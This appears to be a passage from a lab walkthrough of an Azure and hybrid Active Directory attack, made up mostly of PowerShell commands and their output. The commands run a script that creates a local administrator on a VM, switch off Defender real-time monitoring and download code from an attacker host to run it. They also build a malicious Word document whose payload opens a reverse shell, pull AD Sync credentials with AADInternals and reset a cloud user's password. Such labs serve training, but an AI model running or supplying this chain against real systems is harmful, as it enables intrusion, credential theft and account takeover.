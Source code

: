 ```powershell
Subnet                                : {
                                          "Id": "/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/virtualNetworks/Engineering-vnet/subnets/default",
                                          "IpAllocations": []
                                        }
PublicIpAddress                       : {
                                          "IpTags": [],
                                          "Zones": [],
                                          "Id": "/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/publicIPAddresses/bkpadconnectIP"
                                        }
LoadBalancerBackendAddressPools       : []
ApplicationGatewayBackendAddressPools : []
LoadBalancerInboundNatRules           : []
ApplicationSecurityGroups             : []
```

- We can see the PublicIPAddress interface so we can query its IP address.
```powershell
PS C:\Auditor> Get-AzPublicIpAddress -Name bkpadconnectIP | select Name,ResourceGroupName,IpAddress,Location

Name           ResourceGroupName IpAddress     Location
----           ----------------- ---------     --------
bkpadconnectIP Engineering       20.52.148.232 germanywestcentral
```

- We can now invoke commands to `bkpadconnect` through PowerShell scripts. We will run one that adds a new user that we control to the local administrators group.
```powershell
PS C:\Auditor> type .\adduser.ps1
$passwd = ConvertTo-SecureString "Stud72Password@123" -AsPlainText -Force
New-LocalUser -Name student72 -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student72

PS C:\Windows\system32> Invoke-AzVMRunCommand -VMName bkpadconnect -ResourceGroupName Engineering -CommandId 'RunPowerShellScript' -ScriptPath 'C:\AzAD\Tools\adduser.ps1'


Value[0]        :
  Code          : ComponentStatus/StdOut/succeeded
  Level         : Info
  DisplayStatus : Provisioning succeeded
  Message       : Name      Enabled Description
----      ------- -----------
student72 True


Value[1]        :
  Code          : ComponentStatus/StdErr/succeeded
  Level         : Info
  DisplayStatus : Provisioning succeeded
  Message       :
Status          : Succeeded
Capacity        : 0
Count           : 0
```


[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"